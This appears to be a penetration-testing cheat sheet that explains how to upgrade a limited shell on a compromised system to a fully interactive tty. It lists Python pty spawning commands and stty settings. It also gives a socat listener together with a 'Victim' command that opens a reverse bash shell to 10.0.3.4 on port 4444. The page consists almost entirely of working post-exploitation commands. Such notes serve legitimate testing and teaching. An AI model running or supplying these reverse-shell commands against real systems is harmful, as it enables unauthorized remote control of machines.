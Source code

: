 
# Interactive shell

> Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.

## Python psuedo terminal

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Python fully Interactive TTY

1. Spawn a TTY shell
```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

2. Upgrade to Full Interactive Shell
```shell
export TERM=xterm
```

```shell
[Ctrl + Z]
```

```shell
stty raw -echo; fg
```

```shell
stty rows 38 columns 116
```

## Socat shell

### Listener

```shell
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
### Victim

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## 📚 References

* [blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
* [fahmifj.medium.com/get-a-fully-interactive-reverse-shell-b7e8d6f5b1c1](https://fahmifj.medium.com/get-a-fully-interactive-reverse-shell-b7e8d6f5b1c1)